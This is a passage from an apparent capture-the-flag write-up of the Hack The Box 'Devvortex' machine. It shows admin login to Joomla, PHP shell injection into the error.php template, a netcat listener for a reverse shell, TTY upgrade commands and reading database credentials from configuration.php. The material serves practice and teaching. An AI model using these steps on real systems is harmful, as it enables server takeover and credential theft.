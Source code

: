 Now, we have two users, and one of them with its password.
So we will try to log in as administrators in `http://dev.devvortex.htb/administrator`

![dev.devvortex login](htb-devdevvortex-login.png)
*dev.devortex login*

And... We are in!

### www-data

Now, we need to perform a lateral movement to gain shell as the user `www-data`.
In order to do this, we will exploit the joomla template system to gain a reverse shell.

We browse to System > Site Templates > Cassiopeia Details and Files and we inject a php shell in the `error.php` (because is writable) template:

![dev.devvortex php shell](htb-devdevvortex-php-shell.png)
*dev.devortex php shell*

We save the change, and we start listening in our host with `netcat`:

`nc -lvnp 1234`

And, now, we cause a browsing error, navigating to an unexisting url, e.g.: `http://dev.devvortex.htb/asdf`

Once we get shell, the first thing it's upgrating the tty, as always:

```
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

```
www-data@devvortex:~/dev.devvortex.htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

If we look in the `configuration.php` file we found the database and the credentials:

```
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php | grep -E 'user|password|\$db'
        public $dbtype = 'mysqli';
        public $user = 'lewis';
        public $password = 'f4k3l0g4np455';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';
        public $dbsslcert = '';
        public $dbsslca = '';
        public $dbsslcipher = '';
        public $smtpuser = ''
```
